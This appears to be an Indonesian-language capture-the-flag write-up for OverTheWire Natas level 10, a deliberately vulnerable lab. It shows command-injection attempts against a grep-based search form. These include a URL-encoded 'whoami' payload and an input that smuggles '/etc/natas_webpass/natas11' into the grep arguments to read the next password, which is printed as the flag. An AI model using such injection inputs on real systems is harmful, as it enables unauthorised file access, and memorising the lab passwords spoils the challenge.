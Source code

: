 ```yaml
---
layout: default
test_level10
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas10 \
URL:      http://natas10.natas.labs.overthewire.org

# solve
- use cred natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
- setelah saya login terdapat sebuah form input seperti sesbelumnya hanya saja sepertinya terdapat keamanan yang lebih baik
  ![alt text](docs/images/image-17.png)
  - terdapat pengecualian pada teks seperti "/[;|&]/"
  - disini saya mencoba untuk melakukan bypass sperti menggunakan url encode namun masih belum berhasil
  ```
  %3Bwhoami%3B
  ```
  - https://github.com/payloadbox/command-injection-payload-list
  - https://owasp.org/www-community/attacks/Command_Injection
  - https://book.hacktricks.xyz/pentesting-web/command-injection
- lalu saya terpikir sesuatu untuk mencoba grep file /etc/natas_pass saja
  ![alt text](docs/images/image-18.png)
  ```
  a /etc/natas_webpass/natas11
  ```
- dan akhirnya saya berhaasil mendapatkan flagnya
  ```
  /etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
  ```

# flag
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk